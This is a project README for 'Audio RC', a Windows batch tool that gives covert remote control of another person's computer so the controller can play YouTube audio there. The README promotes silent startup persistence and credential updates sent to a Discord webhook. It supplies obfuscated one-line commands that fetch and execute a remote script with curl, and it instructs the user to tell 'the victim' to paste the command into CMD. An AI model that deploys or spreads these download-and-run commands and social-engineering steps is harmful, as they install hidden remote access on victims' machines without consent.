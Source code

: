 ## 🔊 Audio RC Version 2.0
> Audio RC allows you to remote other machine and silently play youtube audio in it without the other side knowing how to stop or who did it.

#### Audio RC Features
* **Discord Webhook Credentials updating**

    _if the other side has reset the session URL for any reason, you will recieve a new message containing the updated information_

* **Audio RC starts with the computer everytime**

    _When the computer restarts Audio RC will start silently without the other side knowing about it_

* **Play any content valid on youtube**

    _You are able to play any youtube video using its URL_

* **A Script to remote the other side _(NEW)_**

    _Version 2.0 introduces a remote script which makes it much easier
    to control the other side, you open the script, paste the youtube link and the script does anything for you and keeps you updated about the other side's status_

#### Setup Audio RC
_Technically, there are 2 ways to setup Audio RC_

##### Difference Menu
| METHOD | DIFFERENCE | Recommended? |
| :--: | :--: | :--: |
| 1 | _This method will only print the login credentials on the screen while you are in DEBUG mode_ | Technically, **YOU SHOULDN'T USE THIS METHOD UNLESS YOU HAVE SSH ACCESS** to the same computer |
| 2 | _This method will send the login credentials to your discord webhook and will keep you updated in case they were changed_ | **This method is just a bit harder to setup,** though you will recieve the login credentials into your discord webhook. **(HIGHLY RECOMMENDED)** |

##### :one: Method Number 1 _(SSH)_
- Paste the following code into the SSH
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%corg/%a/raw"&&call "%~b6%c%d" --debug
```
- You should restart the computer through your SSH connection.


##### :two: Method Number 2
- [Create your webhook link at discord](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
> _How does a webhook look?_
>
> Your webhook should include `/api/webhooks/` inside of it.

- At this point you'd need to create a paste in [pastebin.com](https://pastebin.com/) and just paste your webhook link inside of it. _(GIF below)_
![Paste Creation Review](https://cdn.agamsol.xyz:90/media/chrome_5NaMTYFDtr.gif)
- Now you need to copy the paste's ID _(GIF below)_
![Copy ID](https://cdn.agamsol.xyz:90/media/chrome_wetwcveipX.gif)

- Once you copied the ID **replace `XXXXXXXX`** in the end of the command below **with the ID you copied**.
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%cco/%a/raw"&&call "%~b6%c%d" "XXXXXXXX"
```
- After replacing the `XXXXXXXX` combination with your ID
you are ready to go, save the command and you will be able to use it in the future

- **ONCE YOU ARE WILLING TO USE THE COMMAND:**
- Tell the victim to open CMD window.
- Tell the victim to paste **YOUR unique command** into their CMD window.
- Wait for the credentials to get sent to you.

### You got the credenitials? Great! :tada:

_At this step we will be installing the remote panel, if you want to use it but scared, you can use it in a VM or you can check the [source code](https://github.com/agamsol/Audio-RC/blob/2.0/REMOTE/REMOTE.bat) of the remote script._

- Download the [Remote Script](https://raw.githubusercontent.com/agamsol/Audio-RC/2.0/REMOTE/REMOTE.bat)
> NOTE: You should download the script and put it on a folder on its own, this will grant you easy access to it whenever you need & want.
- Open the file [`REMOTE.bat`](https://raw.githubusercontent.com/agamsol/Audio-RC/2.0/REMOTE/REMOTE.bat)
- Enter the credentials to login.

#### 📚 Contact information and support
> Feel free to contact me in discord, <span style="color:#7289DA">Agam#0001</span>

> Im also available in the [r/batch discord server](https://discord.gg/gPMcxXZjkb). **(you can and should ping me there)**

### 💲 Donations
I highly appreciate donors who send money,
a few bucks can make someone's day even better!
><a href="https://www.paypal.me/agamsolomon0011" rel="paypal donations">![donate](https://img.shields.io/badge/Donate-Paypal-brightgreen.svg)</a>

##### **:warning: Please note that we follow the No-Refunds policy**